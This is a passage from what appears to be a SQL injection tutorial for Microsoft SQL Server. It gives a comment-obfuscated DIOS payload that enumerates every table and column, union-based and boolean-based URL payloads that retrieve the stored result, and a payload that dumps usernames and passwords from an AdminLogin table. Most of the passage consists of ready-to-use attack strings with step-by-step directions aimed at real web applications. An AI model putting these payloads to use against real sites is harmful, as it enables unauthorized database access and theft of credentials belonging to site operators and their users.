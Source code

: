 http://domain.com/index.php?id=1 /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ ;begin declare @x varchar(8000), @y int, @z varchar(50), @a varchar(100) declare @myTbl table (name varchar(8000) not null) SET @y=1 SET @x='injected by rummykhan :: '%2b@@version%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Database : '%2bdb_name()%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @z='' SET @a='' WHILE @y<=(SELECT COUNT(table_name) from INFORMATION_SCHEMA.TABLES) begin SET @a='' Select @z=table_name from INFORMATION_SCHEMA.TABLES where TABLE_NAME not in (select name from @myTbl) select @a=@a %2b column_name%2b' : ' from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=@z insert @myTbl values(@z) SET @x=@x %2b  CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Table: '%2b@z%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Columns : '%2b@a%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @y = @y%2b1 end select @x as output into Kleiton0x00 END--
```  
- No output will be displayed because it is stored into an environment variable. We can access it by using one of the 2 following payload:  
  
  Union based query:  
  ```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,output,4-- -```  

  Boolean based query:  
  ```http://domain.com/index.php?id=1' and 1=cast(select output from Kleiton0x00)-- -```  

*NOTE: Replace the vulnerable column number (this case it was **3**). The number is found with UNION based payloads we did on the previous step.*  

- Look at the error message/website, the retrieved informations are shown.

![dios_dumped_db](https://i.imgur.com/OmWEciR.jpg)  

### Dumping data inside columns

We know what the tables and columns are (from DIOS or manual dumping), however DIOS is much more recommended as it saves time and effort.

This is a piece of the whole database that we will dump:

**Table name**: *AdminLogin*  
**Columns**: *username*, *password* 

```http://domain.com/index.php?id=1' and 1=(select username %2b ':' %2b password from AdminLogin for xml PATH("))-- -```

![column_dumped](https://i.imgur.com/OwfunVg.jpg)
